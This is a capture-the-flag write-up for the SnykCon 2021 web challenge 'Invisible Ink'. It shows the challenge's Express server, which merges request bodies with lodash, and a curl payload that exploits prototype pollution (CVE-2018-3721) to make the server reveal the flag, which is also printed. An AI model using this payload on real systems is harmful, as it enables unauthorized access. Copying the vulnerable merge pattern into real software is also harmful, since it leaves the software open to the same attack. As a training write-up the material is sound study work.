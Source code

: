 # SnykCon-CTF-2021
* Category: Web 
* Name: Invisible Ink
* Level: None
* Description: None
## Solution
* Overview the challenge provided us a `request` and `response` and `POST` method
![Main function](./challenge.PNG) 
*  I use curl command with `POST` method and seems nothing =))))
![Main function](./1.PNG) 
* Now i read `index.js` file 
```c
'use strict';
const fs = require('fs');
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const _ = require('lodash');
const options = {};
const flag = fs.readFileSync('./flag', 'utf-8').trim();
const docHtml = fs.readFileSync('./index.html', 'utf-8');

app.use(bodyParser.json());

app.get('/', (req, res) => {
    res.send(docHtml);
});

app.post('/echo', (reg, res) => {
    const out = {
        userID: req.headers['x-forwarded-for'] || req.connection.remoteAddress, time:
            Date.now()
    };

    _.merge(out, req.body);
    if(options.flag){
        out.flag = flag;
    }else {
        out.flag = 'disabled';
    }
    res.json(out);
    process.exit(0);
});
app.listen(8000);
```
* I found two line of code `const _ = require('lodash');`,`_.merge(out, req.body);`,`lodash` is a lib of javascript you can read document about it at `https://lodash.com/` :))
* Then i found some exploit ways involved lodash and i found `CVE-2018-3721`. I realized the challenge have a problem about `Prototype Pollution`
* <https://nvd.nist.gov/vuln/detail/CVE-2018-3721>
* I used `curl`command again and i found a flag ^_^ 
```c
curl -H "Content-Type: application/json" -X POST http://35.211.53.53:8000/echo -d  '{"message": "ping", "__proto__": {"flag":true}}'
```
![Main function](./3.PNG) 
* FLAG `SNYK{6a6a6fff87f3cfdca056a077804838d4e87f25f6a11e09627062c06f142b10dd}`

